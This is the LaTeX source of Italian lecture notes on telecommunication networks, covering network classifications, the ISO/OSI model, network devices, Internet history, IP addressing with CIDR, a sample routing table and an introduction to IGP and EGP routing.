Per quanto riguarda le reti distinte in base al profilo di utenza abbiamo \textit{reti pubbliche} e \textit{reti private}. Nelle prime l'accesso è consentito a chiunque, previa stipulazione di un accordo contrattuale con il fornitore di servizi (e.g. Public Switched Telephone Network, PSTN). Nelle seconde gli utenti costituiscono un insieme chiuso ed omogeneo per quanto riguarda le esigenze di comunicazione e l'abilitazione all'accesso richiede la sottoscrizione di un accordo tra cliente e fornitore non assimilabile a quello definito in ambito pubblico (e.g. TErrestrial Trunked RAdio, TETRA).

Nelle reti distinte in base alla mobilità dei terminali, invece, abbiamo \textit{reti fisse}, \textit{reti mobili} e \textit{reti nomadiche}. Nelle prime i servizi supportati dalla rete sono accessibili solo da parte di utenti che non variano la propria posizione durante la comunicazione, oppure restano in un intorno limitato del punto di accesso alla rete; nelle seconde l'accesso è consentito ad utenti che non hanno alcun vincolo alla loro possibilità di movimento; nelle ultime, l'accesso è consentito ad utenti che non hanno alcun vincolo alla loro possibilità di movimento, ma durante la fruizione del servizio restano relativamente statici.

Per le reti distinte in base alla loro estensione abbiamo la \textit{rete in area locale} (Local Area Network, LAN), nelle quali l'area di interesse è limitata ad un singolo edificio o ad un complesso di insediamenti entro il raggio di qualche chilometro, la \textit{rete in area metropolitana} (Metropolitan Area Network, MAN) che fornisce servizi agli utenti che risiedono in una città o in una provincia, e le \textit{reti in area geografica} nelle quali gli utenti sono distribuiti su un'area molto estesa (una nazione, un continente, l'intero globo terrestre). Si noti che comunque questa classificazione non è più molto utile perché le tecnologie sono simili.

Infine, per reti distinte in base alla gamma dei servizi supportati abbiamo le \textit{reti dedicate ad un servizio} e le \textit{reti integrate nei servizi}. Le prime furono originariamente progettate e realizzate per offrire una sola tipologia di servizio (e.g. rete telegrafica/telefonica, rete per dati) e possono essere estese anche ad un insieme ristretto di altri servizi, pur con limitazioni severe per ciò che concerne la qualità conseguibile. Le seconde, invece, rendono possibile la fruizione di una vasta gamma di servizi di telecomunicazione con prestazioni di qualità e di costo superiori a quelli delle reti monoservizio.

La rappresentazione più intuitiva di una rete di telecomunicazione è data dal suo modello geometrico, ovvero dalla propria \textit{topologia}, nel quale gli elementi costitutivi sono i \textit{rami} e i \textit{nodi}. Un \textit{ramo} costituisce l'elemento di connessione di due nodi ed è rappresentato graficamente da un segmento \textit{orientato}, mentre un \textit{nodo} individua un elemento della rete connotato da specifiche funzionalità. Il significato di queste entità geometriche è diverso a seconda del tipo di operatività che si considera. Per gestire una rete è indispensabile conoscere la topologia della rete al giusto livello; si noti che non stiamo parlando di topologie a bus, anello, stella o altro.\\
Una rete esplica la funzione di trasferimento dell'informazione verso nodi preposti alla funzione di utilizzazione dell'informazione. In una rete si distinguono due sottoinsiemi di risorse funzionali dedicate al trasporto: \textit{rete logica} (svolge compiti di natura logica) e \textit{rete fisica} (svolge compiti di natura esclusivamente fisica). Le reti fisica e logica sono in stretta relazione gerarchica dato poiché le funzioni di natura logica utilizzano come supporto quelle fisiche e le funzioni di natura fisica sono al servizio delle altre. L'interazione tra rete fisica e rete logica segue il modello di interazione Client/Server in cui la rete logica agisce come Client e quella fisica come Server.\\
Una \textbf{rete logica} è un'infrastruttura che consente il trasferimento di informazioni da uno (o più) mittenti ad uno (o più) destinatari tra loro remoti e raggruppa funzioni di natura logica che hanno come obiettivo la la fornitura di un servizio di rete; nella formazione di un percorso logico nella rete sono coinvolti rami e nodi. Un \textit{ramo} individua un percorso diretto che l'informazione segue per essere trasferita da un punto all'altro e descrive gli apparati di rete che svolgono la funzione di multiplazione. Un \textit{nodo} individua il mezzo di scambio tra due o più rami che afferiscono ed è situato in corrispondenza degli apparati di rete che svolgono la funzione di commutazione. Ad esempio, se \textquotedblleft guardiamo" una rete a livello di indirizzi IP stiamo individuando una topologia logica che, tuttavia, potrebbe essere diversa a livello applicativo.\\
Una \textbf{rete fisica} è un'infrastruttura preposta al trasferimento dei segnali fisici che veicolano l'informazione. Sostanzialmente è la sede delle funzionalità di natura trasmissiva che coinvolgono tutti gli aspetti di propagazione del segnale ed è l'infrastruttura base a cui fa riferimento la rete logica. In questo caso, un \textit{ramo} individua il percorso fisico su cui avviene il trasferimento dei segnali e modella gli apparati trasmissivi presenti su quella tratta; un \textit{nodo} invece individua il punto di trasmissione e/o ricezione dei segnali ed è situato in corrispondenza dei terminali di ricetrasmissione. Dunque per \textit{rete fisica} si intendono ad esempio cavi, connettori, hub, switch etc. In generale le topologie della rete logica e della rete fisica non coincidono.

La rete si divide in più \textit{sezioni}: sezione di \textbf{accesso} (rete di accesso) e sezione \textbf{dorsale o interna} (rete di trasporto). La \textit{rete di accesso} consente agli utenti l'accesso alla rete con linea di utente individuale, può essere realizzata con svariati supporti fisici ed è la sede di di risorse indivise o, in altri casi, condivise; il punto di accesso alla rete comprende l'interfaccia utente-rete. La \textit{rete di trasporto} consente il trasferimento di informazione tra i nodi di accesso utilizzando eventualmente dei nodi di transito ed è la sede di risorse di trasferimento e di elaborazione condivise; ha come supporto una rete fisica generalmente a fibre ottiche. Nella pratica con il termine rete di accesso si indica la parte di rete destinata al collegamento fra la sede dei singoli utenti finali fino alla prima centrale di commutazione e più in generale al collegamento tra un utente e il suo provider; la rete di trasporto è la rete che distribuisce il traffico verso i vari provider.

\noindent Le informazioni che vengono scambiate all'interno di una rete sono di tre tipi:
\begin{itemize}
	\item \textit{Informazione di utente}. È il traffico che l'utente invia e riceve e per il quale è disposto a pagare (da qui il termine \textit{payload}, il traffico \textquotedblleft pagante"). Alcuni esempi: voce, suoni musicali, immagini, testi. L'informazione veicolata dalle reti di telecomunicazioni è sempre soggetta ad  un'operazione di \textit{codifica di sorgente/canale} che ne riduce la ridondanza e ne aumenta l'affidabilità in dipendenza dal mezzo trasmissivo. L'informazione di utente comprende anche l'informazione generata da una sorgente in relazione ad una specifica applicazione ed è destinata a uno o più collettori di informazione; può essere \textit{monomediale} (interessa un solo mezzo di rappresentazione) o \textit{multimediale} (coinvolge una pluralità di mezzi di rappresentazione). Genericamente è soggetta a QoS, ma la QoS richiesta è strettamente dipendente dal tipo di informazione e dall'utilizzatore (Human-Human, Human-Machine, Machine-Machine). L'informazione utente può anche essere soggetta a elaborazioni \textit{trasparenti} o \textit{apparenti} nel corso del trasporto.
	
	\item \textit{Informazione di segnalazione}. Costituisce quella parte di informazione che serve alla rete per funzionare in presenza di traffico di utente: è un traffico accessorio a quello utente che serve per far fluire l'informazione da una parte all'altra della rete in modo corretto (e.g. nel telefono: comporre un numero, individuare l'utente, inviare il numero del chiamante, etc.). Più precisamente possiamo dire che l'informazione di segnalazione (o di controllo) svolge una funzione di supporto per il corretto trasferimento dell'informazione di utente. Questo tipo di informazione è assente in caso di mancanza del traffico di utente. A livello pratico consente un'interazione tra cliente/utente e fornitore per:
		\begin{itemize}
			\item iniziare una comunicazione,
			\item negoziarne le caratteristiche qualitative e quantitative iniziali,
			\item modificare tali caratteristiche nel corso della comunicazione,
			\item aumentare le potenzialità dei servizi di base coinvolgendo le risorse di elaborazione che si rendono disponibili durante la comunicazione.
		\end{itemize}
	
	\item \textit{Informazione di gestione}. Costituisce il traffico che la rete produce per il suo normale e corretto funzionamento. Garantisce, cioè, il corretto svolgimento delle operazioni necessarie alla gestione delle risorse di rete relative all'erogazione dei servizi, al mantenimento del servizio, all'addebito del servizio. È necessario uno scambio di informazione di gestione tra le apparecchiature di rete e quelle terminali per un utilizzo efficiente dell'infrastruttura di rete. Esempi sono le tabelle di routing nel TCP/IP ed i keep-alive.
\end{itemize}
È importante ricordare che lo scopo di una rete è quello di trasportare la sola informazione dell'utente, tutto il resto (traffico di segnalazione e di gestione) costituisce \textit{overhead} ed occorre minimizzarlo.\\
Il trasferimento delle informazioni di utente, di segnalazione e di gestione può essere attuato sia nell'ambito di un'unica infrastruttura (come si preferiva in passato per le reti dedicate a un servizio) sia utilizzando infrastrutture separate in accordo alle impostazioni più moderne di integrazione dei servizi e di distribuzione dell'intelligenza all'interno della rete. In alcune reti, come SS7, informazioni di segnalazione e di gestioni sono logicamente separate dai dati; nei casi a canale comune è possibile sfruttare al meglio la banda totale del sistema, nei casi a canale separato si ha un maggior controllo del sistema poiché il canale di segnalazione e gestione non viene congestionato dalla trasmissione dati. A seconda del tipo di servizio che si vuole utilizzare funzionerà meglio uno o l'altro tipo. Si noti comunque che nel TCP/IP e nella rete Internet si usa un sistema di segnalazione e gestione a canale comune; nel caso di reti \textit{datagram oriented} l'informazione di segnalazione fa parte dell'header dei pacchetti (e.g. header IP).
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.55]{images/ISO-OSI}
	\caption{Modello ISO/OSI.}
	\label{img:ISO-OSI}
\end{figure}\\
In Figura \ref{img:ISO-OSI} è rappresentato il modello ISO/OSI. È importante sapere due concetti riguardanti questo modello: \textit{information hiding} (non esporre l'implementazione, ma solo un servizio) e \textit{separation of concerns} (non duplicare le funzionalità). La maggior parte dei problemi odierni del TCP/IP deriva dalla violazione di questi due concetti. Un problema fondamentale del modello ISO/OSI è dovuto al fatto che il traffico utente, di segnalazione e di controllo non possono separati e non vi è possibilità di fare il \textit{cross layer}, ovvero saltare da un layer all'altro. Un esempio di pila protocollare che permette di ovviare a questi problemi è una pila tridimensionale (e.g. ATM): a fianco dei layers dati vi è un unico layer di segnalazione, dietro ai quali vi è un unico layer di controllo.\\
Le reti wireless e wired che prenderemo in considerazione nel seguito sono 802.3 (ethernet), 802.11 (WiFi), 802.1 e LTE.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.55]{images/network-devices}
	\caption{Dispositivi di rete.}
	\label{img:network-devices}
\end{figure}\\
I dispositivi che operano nelle reti ed in Internet (Figura \ref{img:network-devices}) sono differenziati in base al livello protocollare in cui operano. A livello fisico abbiamo \textit{repeater} (due porte) e \textit{hub} (più porte). A livello collegamento abbiamo i \textit{bridge} (connettono tecnologie diverse ma compatibili usando il Logical Link Control e cambiando un frame da un tipo ad un altro purché compatibili -- e.g. frame 802.11 in frame ethernet) e gli \textit{switch} (connette tecnologie uguali, instradando i pacchetti verso l'indirizzo desiderato). A livello rete abbiamo i \textit{router}, dispositivi che lavorano a livello di indirizzi IP e che decidono l'instradamento basandosi su tabelle e protocolli di apprendimento delle route. Ai livelli superiori si parla di \textit{gateway}. Il fatto che questi dispositivi siano dotati di \textquotedblleft intelligenza" (i.e. managed) non significa che operino a livelli superiori a quello di riferimento (e.g. uno switch managed opera sempre a livello 2, anche se presenta un'interfaccia di gestione web). Dato che il TCP/IP occupa i livelli 3 e 4, in Internet vi sono solo routers e gateways.

\section{Internet}
Internet non è nata un giorno a caso: la sua nascita è stata il risultato di un processo lungo, lento e contrastato; se vogliamo capire cos'è e come sopravvive, è fondamentale capire come e perché si è venuta a creare. Le idee rivoluzionarie vennero agli inizi degli anni '60 soprattutto da due persone: Leonard Kleinrock e J.C.R. Licklider. Il primo introdusse le comunicazioni a pacchetto in un momento in cui era norma fare delle comunicazioni a messaggio (messaggi lunghi); il secondo, anche se meno famoso, diede dei contributi notevoli soprattutto nell'ambito delle comunicazioni spaziali. Internet \textquotedblleft nasce" quindi intorno agli anni '60 grazie alle idee di Kleinrock e Licklider, poi finanziate in modo massiccio dal Dipartimento della Difesa Americano (DoD); nasce dunque come rete finanziata dai militari, ma essendo un progetto di ricerca venne reso aperto. Il \textit{come} ed il \textit{perché} Internet abbia battuto la concorrenza di tutti i modelli di rete presenti al tempo, è un problema complesso che coinvolge \textit{fattori economici}, \textit{fattori tecnologici}, \textit{facilità di utilizzo}, \textit{utilizzatori finali} e \textit{politica}.

\noindent Nella storia di Internet troviamo i pattern fondamentali di una rete di telecomunicazioni:
\begin{enumerate}
	\item \textit{Target} (user-driven o provider-driven). Normalmente quando si crea una rete vi sono uno o più soggetti che effettuano la standardizzazione, un provider che costruisce la rete e degli utenti che la utilizzano; deve esserci inoltre un \textit{business model} che prevede un \textit{investimento} ed un \textit{ritorno di investimento} dopo $x$ anni. In Internet questo modello si ribalta perché nasce da un progetto di ricerca (che serve alla ricerca), e non è mirato ad un ritorno di investimento.
	\item \textit{Finanziamento dello startup}. Successivamente Internet prese piede ed il Dipartimento della Difesa Americano decise di tagliare i fondi poiché gli Internet Service Provider erano in grado di essere autonomi.
	\item \textit{Riposizionamento del target}. Internet nacque puramente come una rete dati e nel corso degli anni si è evoluta per avere protocolli più sicuri ed esigenti, per supportare le esigenze degli utenti.
	\item \textit{Concorrenza da parte di altri}. Vi è stata ed è tuttora presente una concorrenza a livello protocollare, di proposte (e.g. la \textquotedblleft guerra dei browser", modifiche proposte all'HTTP, ...); più precisamente vi è una concorrenza riguardante i modelli di rete ed i modelli di business.
	\item \textit{Evoluzione tecnologia dei servizi}.
\end{enumerate}
Fino alla fine degli anni '70 Internet vide un'evoluzione tecnologica \textquotedblleft di base" ed una concorrenza da parte delle reti a \textit{modello verticale}. Una rete a modello verticale è una rete studiata per trasportare uno o più servizi, la cui evoluzione è conseguente ai servizi stessi; nella pratica si hanno dispositivi ed un'infrastruttura che funzionano solo se prodotti dalla stessa azienda, quindi solo se hanno un preciso modello proprietario. In una rete verticale non vi è una separazione netta tra il fornitore dei servizi e quello del trasporto. Internet è un \textit{modello orizzontale}: si fornisce una serie di protocolli che (by design) sono progettati per essere pronti all'utilizzo o, alternativamente, per essere estesi utilizzando protocolli già esistenti o creandone dei nuovi. Negli anni '80-'90 vi fu l'apertura dei mass-market (passaggio da rete di ricerca a rete commerciale), lo sviluppo dei servizi, la concorrenza sui servizi e, conseguentemente, sulla rete stessa. Allo stato attuale vi sono dei segnali di ritorno a reti verticali, che potrebbero causare la fine della rete aperta.

Internet è uno dei rarissimi esempi di rete nella quale vi è una separazione quasi perfetta tra fornitori di servizi e quelli del trasporto; questo è dovuto alla sua origine \textquotedblleft accademica" ed al fatto che non sia nata per vendere un servizio. Le caratteristiche principali di Internet sono le seguenti:
\begin{itemize}
	\item È basata sui protocolli TCP/IP,
	\item Comprende anche molti altri protocolli (UDP, ICMP, ARP, RIP, OSPF, protocolli di livello applicativo...), e formati (RFC 822, MIME...),
	\item È una rete di \textquotedblleft sotto-reti" che collega più di $110\,000$ sotto-reti con più di 50 milioni di calcolatori,
	\item È standardizzata con RFC (Request For Comment),
	\item I collegamenti fisici tra host e router sono basati su: LAN, MAN, canali punto-punto in fibra od in cavo coassiale, reti X.25, ISDN, ponti radio, Frame Relay, ATM, SLIP, PPP, il tutto in un sistema aperto,
	\item Esistono realizzazioni TCP/IP anche per reti non standard.
\end{itemize}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.3]{images/ascore-2015}
	\caption{Topologia della rete Internet riguardante la distribuzione di link tra Autonomous System (AS) (2015).}
	\label{img:ascore-2015}
\end{figure}
In Figura \ref{img:ascore-2015} è rappresentata la distribuzione mondiale dei link tra AS (un blocco di indirizzi IP, un ISP, ...), riguardante sia IPv4 sia IPv6; attualmente la crescita di IPv6 dipende quasi interamente dagli Internet Service Provider. Quando le due mappe saranno pressoché uguali, IPv6 sarà ad un buon livello della propria diffusione e sarà possibile iniziare ad eliminare IPv4.\\
Fissiamo la terminologia che useremo d'ora in avanti: \textit{subnet} e \textit{Autonomous System} (AS). Una \textit{subnet} è un segmento di rete basata su TCP/IP delimitato dai suoi confini di routing. È identificabile a livello rete da una coppia Indirizzo/Subnet Mask, oppure da un indirizzo espresso secondo notazione CIDR (in IPv6 dai primi 64 bit dell'indirizzo). Si noti che (in IPv4) una subnet finisce con un router: due subnets non possono comunicare se non attraverso un router. Il concetto di \textit{Autonomous System} (AS) è di tipo amministrativo e si riflette solo sul routing: \textquotedblleft\textit{Within the Internet, an autonomous system (AS) is a collection of connected Internet Protocol (IP) routing prefixes under the control of one or more network operators that presents a common, clearly defined routing policy to the Internet (cf. RFC 1930, Section 3)}". In generale all'interno di un AS sono definiti dei protocolli di routing che possono essere diversi da quelli utilizzati all'esterno per connettere più AS; questo perché un amministratore di un AS può decidere in modo arbitrario cosa fare e quali servizi fornire all'interno del proprio AS.\\
Per quanto riguarda la struttura di Internet, possiamo dire che questa è una inter-rete che consente a sistemi terminali (host) appartenenti a sotto-reti eterogenee di scambiare informazioni. Non possiede un organismo centralizzato dotato di poteri di controllo e lo sviluppo tecnologico si basa sul contributo degli utenti della rete stessa. È basata sulla pila protocollare TCP/IP e l'interconnessione tra sotto-reti è un paradigma fondamentale; non è prevista tuttavia la traduzione dei protocolli. Si noti che vi è una separazione amministrativa e di management tra le diverse sotto-reti che, nel modello, non sono tenute ad una gestione integrata. Per \textquotedblleft sotto-reti" non si intendono le \textquotedblleft subnets", bensì gli \textit{Autonomous System} (AS).\\
La pila protocollare TCP/IP è situata a livello rete (e superiori): i protocolli TCP/IP assumono che le sotto-reti non eseguano nessuna funzione a parte quella di trasferimento delle unita informative ed esiste la possibilità di duplicazione delle funzioni tra strati TCP/IP e strati protocollari specifici di una sotto-rete. Le entità di Internet sono gli \textit{host} ed i \textit{router/gateway}: gli \textit{host} (L7) sono le sorgenti e le destinazioni delle informazioni univocamente riconosciuti nella rete (tramite indirizzo IP); i \textit{router/gateway} (L3/L4-7) sono i nodi intermedi che instradano i pacchetti IP tra le sotto-reti e possiedono un'interfaccia per ogni sotto-rete a cui sono connessi.\\
Vediamo brevemente il \textit{principio di interconnessione}. L'host sorgente, dopo aver fatto una traduzione dell'indirizzo alfanumerico in un indirizzo IP:
\begin{enumerate}
	\item Forma il pacchetto IP diretto all'host di destinazione (si ha un indirizzo di livello 3).
	\item Determina se l'host di destinazione si trova sulla sua stessa subnet: se la subnet è la stessa, viene determinato l'indirizzo MAC dell'host di destinazione; se la subnet è diversa, viene determinato l'indirizzo IP e l'indirizzo MAC del router verso cui inviare il pacchetto. In base alle informazioni di livello 3 viene deciso il tipo di routing (diretto o indiretto).
	\item Consegna il pacchetto alla rete che lo rimanda al destinatario (router o host). L'indirizzo di livello 3 viene tradotto in un indirizzo di livello 2 (MAC).
\end{enumerate}
In sostanza un router elabora l'indirizzo dei pacchetti IP e determina, tramite la propria tabella di routing, la subnet in cui si trova l'host di destinazione: se l'host di destinazione si trova in una delle subnets a cui il router è direttamente connesso, affida il pacchetto alla subnet per la consegna, altrimenti determina il router successivo verso il quale instradare il pacchetto. Una subnet, invece, si occupa di trasferire i pacchetti IP incapsulandoli nelle proprie unità dati ed utilizzando i protocolli propri.\\
In Internet esistono tre livelli di identificazione di un indirizzo:
\begin{itemize}
	\item \textbf{Indirizzo MAC}. È l'indirizzo della scheda di rete e solitamente è prefissato.
	\item \textbf{Indirizzo numerico}. È l'indirizzo IP (e.g. 150.217.8.24) ed è assegnato dal gestore della rete in base al tipo di rete a cui si appartiene (subnet).
	\item \textbf{Indirizzo alfanumerico}, ad esempio \texttt{lenst.det.unifi.it}. È un indirizzo libero ed è sufficiente che sia mappato in un NameServer.
\end{itemize}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/UML-address}
	\caption{Diagramma UML degli indirizzi in Internet.}
	\label{img:UML-address}
\end{figure}
In Figura \ref{img:UML-address} è riportato un banale diagramma UML che mette in relazione i tre tipi di indirizzi. L'indirizzo IP è l'unico indirizzo assegnato in modo pseudo-geografico perché, dal momento che l'indirizzo IP è necessario per il routing, vi è la necessità di avere in qualche modo un'associazione tra indirizzi e località spaziali. In particolare, un indirizzo IP:
\begin{itemize}
	\item Identifica un host; se un host è connesso a più di una rete (multi-homed) avrà un indirizzo IP per ogni rete.
	\item È unico un tutta la rete ed ha una lunghezza di 32 bit.
	\item È assegnato ad una macchina su base geografica, ovvero in base alla rete a cui è connessa.
	\item In origine, nel 1981, era formato da due parti: \textit{net\_id} (identificativo della subnet) e \textit{host\_id} (identificativo dell'host all'interno della subnet). Quindi \textit{IP\_Address} $=$ \textit{net\_id}.\textit{host\_id}.
\end{itemize}
Originariamente la divisione tra \textit{net\_id} e \textit{host\_id} non era fissa, ma dipendeva dalla \textit{classe} dell'indirizzo. La struttura di indirizzamento a due livelli gerarchici era sufficiente nella fase iniziale di Internet. Nel 1984 e stato aggiunto un terzo livello gerarchico: il livello di Sottorete (Subnet), in cui si utilizzano alcuni bit della parte di \textit{host\_id} per codificare il \textit{subnet\_id}.
\begin{figure}[htbp]
	\centering
	\begin{bytefield}{32}
		\bitheader{0,7,8,15,16,23,24,31}\\
		\begin{rightwordgroup}{Classe A}
			\bitbox{1}{0} & \bitbox{7}{Net ID} & \bitbox{24}{Subnet ID + Host ID}
		\end{rightwordgroup} \\
	\end{bytefield}
	\begin{bytefield}{32}
		\begin{rightwordgroup}{Classe B}
			\bitbox{2}{10} & \bitbox{14}{Net ID} & \bitbox{16}{Subnet ID + Host ID}
		\end{rightwordgroup} \\
	\end{bytefield}
	\begin{bytefield}{32}
		\begin{rightwordgroup}{Classe C}
			\bitbox{3}{110} & \bitbox{21}{NetID} & \bitbox{8}{S ID + H ID}
		\end{rightwordgroup} \\
	\end{bytefield}
	\caption{Classi di indirizzi IP.}
	\label{img:address-classes}
\end{figure}\\
In Figura \ref{img:address-classes} sono riportate le tre classi di indirizzi IP. Si noti che il routing avviene sulla NetID. Questo metodo di routing che prevedeva l'utilizzo delle tre classi di indirizzi IP era comodo originariamente, ma si è dimostrato inefficiente in seguito, poiché, così facendo, un router dovrebbe avere una tabella di routing di dimensioni $2^7-2+2^{14}-2+2^{21}-2 = 2\,113\,658$. Venne quindi introdotta la notazione \textbf{CIDR} (\textbf{C}lassless \textbf{I}nter\textbf{D}omain \textbf{R}outing), nella quale gli indirizzi sono nella forma \texttt{x.x.x.x/y} (e.g. 150.217.8.0/24) dove \texttt{y} indica il numero di bit della NetID (contando da sinistra). All'interno dei router il CIDR viene utilizzato in un modo lievemente diverso, ovvero per accorpare linee e ridurre la dimensione della tabella di routing; ad esempio due indirizzi che differiscono di un solo bit vengono \textquotedblleft accorpati" in: 150.217.8.0/24 $+$ 150.217.9.0/24 $=$ 150.217.8.0/23.
\begin{table}[htbp]
	\centering
	\begin{tabular}{|l|l|l|l|l|l|l|l|}
		\hline
		\textbf{Destination} & \textbf{Gateway} & \textbf{Genmask} & \textbf{Flags} & \textbf{Metric} & \textbf{Ref} & \textbf{Use} & \textbf{Iface} \\ \hline
		10.8.0.2 & * & 255.255.255.255 & UH & 0 & 0 & 0 & tun0 \\ \hline
		10.4.0.1 & * & 255.255.255.255 & UH & 0 & 0 & 0 & tun1 \\ \hline
		192.168.21.0 & 10.8.0.2 & 255.255.255.0 & UG & 0 & 0 & 0 & tun0 \\ \hline
		150.217.8.0 & * & 255.255.255.0 & U & 0 & 0 & 0 & eth0 \\ \hline
		192.168.2.0 & 10.4.0.1 & 255.255.255.0 & UG & 1 & 0 & 0 & tun1 \\ \hline
		10.8.0.0 & 10.8.0.2 & 255.255.255.0 & UG & 0 & 0 & 0 & tun0 \\ \hline
		192.168.11.0 & * & 255.255.255.0 & U & 0 & 0 & 0 & eth2 \\ \hline
		default & detfw.det.unifi & 0.0.0.0 & UG & 0 & 0 & 0 & eth0 \\ \hline
	\end{tabular}
	\caption{Esempio di tabella di routing.}
	\label{tab:routing-table-example}
\end{table}
Nella Tabella \ref{tab:routing-table-example} è riportato un esempio reale di tabella di routing; abbiamo una destinazione, un gateway (cioè il next-hop), la genmask (i.e. netmask), dei flag, una metrica (definisce, in caso di due linee totalmente equivalenti quale delle due scegliere), ref e use (servono per vedere quante volte è stata utilizzata la linea e se questa è aggiornata o se è da rimuovere), I(nter)face (indica l'interfaccia utilizzare per inoltrare i pacchetti). Se due destinazioni presentano lo stesso gateway (e la stessa interfaccia), possono essere accorpate modificando la genmask. Per identificare la destinazione di un pacchetto occorre scoprire la entry a massima verosimiglianza. In particolare, indicando con $\&\&$ l'AND logico bit a bit, se
$$\text{DestIP}\;\&\&\;\text{RTMask}_i == \text{RTDestIP}_i$$
(RT = Routing Table) allora la entry $i$ ha rank pari al numero di bit a uno della RTMask e si sceglie la entry a rank maggiore, ossia scegliamo la entry che ha più bit ad uno della RTMask; nel caso in cui si ottenga più di un risultato, si confrontano le metriche.

\section{Routing}
Abbiamo visto che il \textit{routing} potrebbe essere un problema di non poco conto. Fondamentalmente esistono due tipi di routing: \textit{diretto} ed \textit{indiretto}. Nel routing diretto si utilizzano i meccanismi della subnet alla quale si è associato, ossia ARP (per IPv4) e NDP (per IPv6). Nel routing indiretto, invece, il router cerca una entry nella routing table. Ciò che ci interessa vedere è, dunque, come viene costruita una routing table (RT) in un router. Prima di andare avanti, però, dobbiamo ricordare alcuni punti.\\
\begin{itemize}
	\item Il routing è composto da due elementi: un \textit{protocollo di routing} per costruire le RTs, che viene eseguito periodicamente a prescindere dai pacchetti dati, ed un \textit{algoritmo di switching}, che si applica ad ogni pacchetto in transito.
	\item In genere le RTs non vengono mai costruite a mano, tranne in casi particolari.
	\item Le RTs non possono cambiare troppo spesso perché, altrimenti, non funzionerebbero più i protocolli di Congestion Control del TCP; inoltre è da tenere presente che gli algoritmi di routing sono limitati dalla velocità della rete di segnalazione.
	\item Il routing non viene fatto \textquotedblleft a caso": deve avere un \textit{obiettivo}, un funzionale da minimizzare.
	\item Il routing influenza il funzionamento della rete; è compito del management guidare il routing, e non essere guidati da esso.
\end{itemize}
Abbiamo visto che esiste il routing diretto ed indiretto, ma esiste un'ulteriore classificazione: il \textit{routing IGP} (Interior Gateway Protocol), che avviene all'interno di un AS, ed il \textit{routing EGP} (Exterior Gateway Protocol), che avviene tra AS differenti. Si noti che questi non sono protocolli, ma \textit{classi di protocolli}; vediamoli nel dettaglio.

Dal momento che un AS è un dominio amministrativo unico, si suppone che il gestore di rete possa (e debba) individuare un criterio ottimale all'interno dell'AS, in modo da ottimizzare i percorsi. Lo scopo dei protocolli \textit{IGP} è quello di applicare il criterio ottimale individuato dal gestore e di creare automaticamente le tabelle di routing che minimizzino il funzionale di costo scelto: è sostanzialmente un problema di ricerca del minimo. Da un punto di vista teorico è una questione semplice, dobbiamo: definire un funzionale di costo $f:\mathbb{R}^n\to\mathbb{R}$ (preferibilmente semplice e convesso), associare un costo ad ogni ramo (e/o nodo, ad esempio nel caso in cui si voglia minimizzare l'energia utilizzata da un nodo), ed applicare un algoritmo di ricerca del minimo per ogni coppia $(i,j)$ di nodi. È banale dimostrare che è sufficiente associare il costo ai rami, ma il problema è come realizzare l'idea.\\
